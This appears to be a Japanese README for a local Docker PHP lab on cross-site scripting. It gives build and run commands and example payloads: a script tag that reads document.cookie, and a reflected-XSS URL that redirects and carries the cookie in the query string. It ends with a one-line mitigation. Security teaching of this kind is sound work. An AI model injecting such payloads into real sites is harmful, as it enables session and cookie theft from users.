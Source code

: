 # 起動方法
Dockerfileのあるディレクトリ下で `docker build -t php7test .` を実行
`docker run -v <local file path>/src:/var/www/html -d -p 8000:80 --name php7cont php7test` でコンテナ外のソース読ませながらコンテナ起動

# XSS実験
* Chromeだとブラウザの処理で弾くのでFirefoxで試す
## 攻撃例
`http://localhost:8000/xss.php` にアクセスして、名前欄に `<script>alert(document.cookie)</script>` を入れるとCookie情報が取得できる
また名前欄に `http://localhost:8000/xss_confirm.php?name="><script>window.location=%27http://localhost:8000/xss.php?%27%2bdocument.cookie;</script>` みたいにしておけば取得したCookie情報を使って確認画面にアクセスができてしまう。

## 対策方法
フォームにscriptを仕込めないようにする
